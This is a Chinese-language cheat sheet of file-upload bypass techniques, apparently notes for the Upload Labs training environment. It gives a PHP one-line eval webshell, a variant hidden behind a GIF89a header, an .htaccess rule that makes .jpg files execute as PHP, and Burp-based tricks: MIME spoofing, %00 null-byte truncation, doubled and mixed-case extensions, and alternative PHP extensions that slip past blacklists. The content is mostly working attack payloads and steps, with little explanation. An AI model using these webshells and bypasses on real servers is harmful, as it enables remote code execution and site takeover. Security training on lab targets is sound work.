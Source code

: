 0x1 无验证: 一句话木马 `<?php @eval($_POST['cmd']) ?>`

0x2 前端验证: bp 抓包修改 1.php.jpg 为 1.php

0x3 .htaccess:

    未过滤.htaccess后缀，故此处也可上传.htaccess文件进行绕过。
    注: .htaccess文件生效前提条件为1.mod_rewrite模块开启。2.AllowOverride All

    1.上传.htaccess
    .htaccess
        AddType application/x-httpd-php .jpg
    2. 上传一句话木马

0x4 MIME 绕过:

    bp抓包 修改 Content-Type: application/octet-stream 为
    Content-Type: image/jpg

0x5 00 截断:

    上传 "shell.php.jpg"，bp抓包
    POST /?road=/var/www/html/upload/ HTTP/1.1 ==>改为
    POST /?road=/var/www/html/upload/shell.php%00 HTTP/1.1

0x6 双写后缀:

    上传 "shell.php"，bp抓包
    修改 filename="shell.php" => filename="shell.pphphp"

0x7 文件头检查:

    1. GIF89a<?php @eval($_POST['cmd']);?> 更改后缀名
    2. copy 1.gif/b+1.php/a sh.php
    2.上传sh.php 抓包
    3.修改mime上传

0x8 过图片, gif 抓包后改 gif 为 .phtml 结尾, 蚁剑连接

### Upload Labs

#### **0x03 黑名单绕过** .php .phtml .phps .php5 .pht .jpg

不允许上传.asp,.aspx,.php,.jsp 后缀文件，但是可以上传其他任意后缀。比如说:.phtml .phps .php5 .pht，但如果上传的是.php5 这种类型文件的话，如果想要被当成 php 执行的话，需要有个前提条件，即 Apache 的 httpd.conf 有如下配置代码

    AddType application/x-httpd-php .php .phtml .phps .php5 .pht .jpg

- 0x9 文件名后缀名绕过

绕过方法

    * 找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类

#### **Pass-04 .htaccess**

#### **Pass-05 大小写绕过**

    比如 aSp, Php pHp, 没有将文件名统一转成小写，故可以通过大小写绕过
